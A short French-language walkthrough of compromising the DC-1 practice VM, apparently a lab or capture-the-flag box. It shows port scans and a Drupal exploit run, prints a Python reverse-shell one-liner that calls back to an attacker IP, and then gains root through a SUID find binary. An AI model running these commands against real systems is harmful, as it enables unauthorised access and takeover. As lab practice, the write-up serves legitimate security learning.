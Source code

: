 # DC-1

    sudo nmap -A -p1-10000 192.168.214.193
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.214.193 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.214.193

Scans classiques.

    whatweb http://192.168.214.193

Le site utilise Drupal, j'ai immédiatement testé le même déroulé que sur Lampiao et cela a marché, j'ai déroulé cette VM en moins de cinq minutes.

    ruby  Drupal.rb http://192.168.214.193
    ...
    DC-1>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
    ...
    ls /home
    cat /home/local.txt

Pas besoin de LinPEAS cette fois, la commande **"find"** m'a sauté aux yeux dans les résultats et j'ai juste eu à utiliser la commande habituelle pour l'élévation de privilèges, mais en retirant l'option "-p" qui n'était pas reconnue. 

Voir : https://gtfobins.github.io/gtfobins/find/#suid

    find / -perm /4000 2>/dev/null
    find . -exec /bin/sh \; -quit
    ls /root
    cat /root/proof.txt

